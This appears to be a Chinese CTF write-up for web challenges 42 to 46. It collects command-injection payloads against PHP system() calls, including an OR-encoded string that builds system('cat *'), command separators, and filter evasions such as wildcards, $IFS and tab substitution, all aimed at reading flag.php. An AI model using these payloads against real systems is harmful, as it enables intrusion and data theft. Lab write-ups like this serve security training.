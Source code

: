 ```
```

构造

```
c="");('%60%60%60%60%60%60'|'%13%19%13%14%05%0d')(('%03%01%14'|'%60%60%60').' *');#
# system('cat *')
eval(echo "");system('cat *');#;);
```

BP发包

## web42

```bash
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
此题代码的system()中有" >/dev/null 2>&1"，他的作用是将程序的标准输出和错误输出都存到/dev/null（舍弃掉）。

payload:
```
?c=ls;

?c=cat flag.php;
cat flag.php%0a
cat flag.php||
cat flag.php%26
cat flag.php%26%26
```

---
## web43-44-45-46
过滤了cat用tac，过滤了;用%0a或 ||。

过滤了flag
```
?c=tac fl*%0a
?c=tac fl??????%0a（？与省略的ag.php数量一致）
?c=tac fl``ag.php||
```

过滤空格
```
?c=tac%09fla*%0a

?c=tac$IFS$9fl'ag'.php||

?c=tac<fl'ag'.php||

?c=tac${IFS}fl'ag'.php||

?c=tac<>fl'ag'.php||
```
